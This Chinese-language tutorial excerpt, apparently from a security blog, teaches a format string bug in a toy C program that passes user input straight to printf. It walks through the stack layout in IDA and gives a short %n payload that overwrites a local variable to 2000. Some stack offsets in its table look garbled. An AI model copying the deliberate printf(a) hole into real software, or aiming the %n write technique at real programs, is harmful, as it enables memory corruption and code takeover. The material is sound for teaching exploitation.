 ```
#include <stdio.h>
int main(void)
 { int flag = 0;
 int *p = &flag; char a[100];
    scanf("%s",a);
    printf(a);

    if(flag == 2000)
    {
            printf("good!!\n");
    }

    return 0;

```

}

使用gcc编译。[这里](http://7xkqu1.com1.z0.glb.clouddn.com/@/pwn/test)<-- 是我编译成的可执行文件。可以拿去试试。

然后拖进IDA中分析一下栈结构，调用`printf`函数时候的栈结构是这样的

```
-00000010 r               dd ?   <-- 这里是printf的返回地址，向上就是printf的栈帧
-00000010 format          dd ?
-00000010                 dd ?
-00000010                 dd ?
-00000010                 dd ?
-0000000C flag            dd ?
-00000008 p               dd ?
-00000004 a               db ?
-00000000                 db ? ; <-- 再向下就都是a数组的空间

```

我们可以需要修改的变量是flag，而指针p便是指向flag的指针。所以可以通过p来修改flag的值为2000，从而达到我们打印出good！！的目标

```
>%010x%010x%010x%01970x%n
```

这个便是我构造出的poc，很短，但是很强悍（→_→）。 那么我们来看看效果吧

![enter image description here](http://drops.javaweb.org/uploads/images/b738f109627c935eaf2146b0585fdb9d48816955.jpg)

oh yeah！！！！